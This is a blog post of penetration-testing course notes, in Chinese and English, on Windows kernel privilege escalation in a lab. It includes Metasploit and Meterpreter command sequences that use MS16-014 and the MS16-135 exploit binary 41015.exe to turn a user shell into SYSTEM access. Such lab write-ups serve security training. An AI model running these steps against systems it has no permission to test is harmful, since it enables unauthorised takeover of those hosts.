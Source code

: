 ```yaml
---
layout: post
title: "Windows Kernel Exploits"
date: "2022-09-19"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Student v2
    - Host & Network Penetration Testing
    - System/Host Based Attacks
---
```


# Windows Kernel Exploits（Windows 内核漏洞利用）
## 权限提升
权限提升是利用系统中的漏洞或错误配置将权限从一个用户提升到另一个用户的过程，通常是在系统上具有管理或root访问权限的用户。

权限升级是攻击生命周期的重要元素，也是渗透测试整体成功的主要决定因素。

在目标系统上获得初步立足点后，您将需要提升您的权限以执行需要管理权限的任务和功能。

权限提升在渗透测试过程中的重要性不能被夸大或忽视。 发展你的特权提升技能将使你成为一名优秀的渗透测试员。

## Windows内核
内核是一种计算机程序，它是操作系统的核心，可以完全控制系统上的所有资源和硬件。 它充当硬件和软件之间的转换层，并促进这两层之间的通信。

Windows NT 是与所有版本的 Microsoft Windows 一起预先打包的内核，并作为传统内核运行，但基于用户设计理念的一些例外情况。 它由两种主要的操作模式组成，这些模式决定了对系统资源和硬件的访问：

用户模式 - 在用户模式下运行的程序和服务对系统资源和功能的访问受限。

内核模式 - 内核模式可以不受限制地访问系统资源和功能，并增加了管理设备和系统内存的功能。

## Windows 内核利用
Windows 上的内核利用通常会针对 Windows 内核中的漏洞来执行任意代码，以便运行特权系统命令或获取系统 shell。

此过程将根据目标 Windows 的版本和使用的内核漏洞而有所不同。

Windows 系统上的权限提升通常遵循以下方法：

识别内核漏洞

下载、编译和传输内核漏洞到目标系统。

## 工具与环境
Windows-Exploit-Suggester - 此工具将目标补丁级别与 Microsoft 漏洞数据库进行比较，以检测目标上潜在的缺失补丁。 如果存在可用于丢失公告的公共漏洞利用和 Metasploit 模块，它还会通知用户。

Github： https://github.com/AonCyberLabs/Windows-Exploit-Suggester

Windows-Kernel-Exploits - 按 CVE 排序的 Windows 内核漏洞利用集合。

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135

注意：本视频中演示的技术是在 Windows 7 SP1 VM 上执行的。

# Demo: Windows Kernel Exploits
```
msf6 > sessions

Active sessions
===============

Id  Name    Type                    Information                     Connection
--  ----    ----                    -----------                     ----------
2           powershell windows      Accountant @ WIN7-PC            10.10.10.10:4444 -> 10.10.10.7:49166 (10.10.10.7)
3           meterpreter x64/windows Win7-PC\Accountant @ WIN7-PC    10.10.10.10:4433 -> 10.10.10.7:49167 (10.10.10.7)
```

```
msf6 > sessions 3
meterpreter > getuid
meterpreter > getprivs
meterpreter > getsystem
```

```
msf6 > search suggester
msf6 > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > show options
msf6 post(multi/recon/local_exploit_suggester) > sessions
msf6 post(multi/recon/local_exploit_suggester) > run
```

Search for `ms10_092_schelevator` on Google:

[Windows Escalate Task Scheduler XML Privilege Escalation](https://www.rapid7.com/db/modules/exploit/windows/local/ms10_092_schelevator/)

Windows 升级任务计划程序 XML 权限升级

该模块利用了 Stuxnet 利用的 Task Scheduler 2.0 XML 0day。在处理任务文件时，Windows 任务计划程序仅使用 CRC32 校验和来验证文件是否未被篡改。此外，在默认配置中，普通用户可以读取和写入他们创建的任务文件。通过修改任务文件并创建 CRC32 冲突，攻击者可以使用 SYSTEM 权限执行任意命令。注意：感谢 webDEViL 提供有关禁用/启用的信息。

Search for `ms16_014_wmi_recv_notif` on Google:

[Windows WMI Receive Notification Exploit](https://www.rapid7.com/db/modules/exploit/windows/local/ms16_014_wmi_recv_notif/)

Windows WMI 接收通知漏洞利用

该模块利用了 ntoskrnl 的 WMI 子系统中未初始化的堆栈变量。该模块已在易受攻击的 Windows 7 SP0 x64 和 Windows 7 SP1 x64 版本上进行了测试。

```
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms16_014_wmi_recv_notif
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 3
msf6 post(multi/recon/local_exploit_suggester) > sessions
msf6 post(multi/recon/local_exploit_suggester) > set LPORT 4422
msf6 post(multi/recon/local_exploit_suggester) > exploit
meterpreter > getuid
meterpreter > 
background session 4? [y/N]
msf6 post(multi/recon/local_exploit_suggester) > sessions

Active sessions
===============

Id  Name    Type                    Information                     Connection
--  ----    ----                    -----------                     ----------
2           powershell windows      Accountant @ WIN7-PC            10.10.10.10:4444 -> 10.10.10.7:49166 (10.10.10.7)
3           meterpreter x64/windows Win7-PC\Accountant @ WIN7-PC    10.10.10.10:4433 -> 10.10.10.7:49167 (10.10.10.7)
4           meterpreter x64/windows NT AUTHORITY\SYSTEM @ WIN7-PC   10.10.10.10:4422 -> 10.10.10.7:49183 (10.10.10.7)
```

Perform manual privilege escalation:

[Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

This tool compares a targets patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It also notifies the user if there are public exploits and Metasploit modules available for the missing bulletins.



```
msf6 post(multi/recon/local_exploit_suggester) > session 3
meterpreter > getuid
Server username: Win7-PC\Accountant
meterpreter > shell

C:\Temp>systeminfo

Host Name:          WIN7-PC
OS Name:            Microsoft Windows 7 Ultimate
OS Version:         6.1.7601 Service Pack 1 Build 7601
...
Hotfix(s):          2 Hotfix(s) Installed.
                    [01]: KB2534111
                    [02]: KB976902
C:\Temp > ^C
Terminate channel 12? [y/N]
meterpreter > 
```

Copy these information.

Open up a new terminal, paste copied information:

```
cd Desktop
vim win7.txt
ls
cd Windows-Enum/Windows-Exploit-Suggester
ls
./windows-exploit-suggester.py --update
./windows-exploit-suggester.py --database 2021-12-26-mssb.xls --systeminfo ~/Desktop/win7.txt
```

The exploits listed at the very top once have higher chance of successfully been exploited.

Search for `MS16-135` on Google:

[windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

[MS16-135 x64 Universal](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135)

Download `41015.exe`, transfer this executable onto the target system, and execute it, then I should have elevated privileges.

Use the meterpreter access to upload the executetable onto the `Temp` direcotory within the Windows's :

```
meterpreter > cd C:\\
meterpreter > ls
meterpreter > cd Temp\\
meterpreter > ls
meterpreter > upload ~/Downloads/41015.exe
meterpreter > shell

C:\Temp>dir
C:\Temp>.\41015.exe
C:\Temp>.\41015.exe 7

C:\Temp>whoami
nt authority\system
```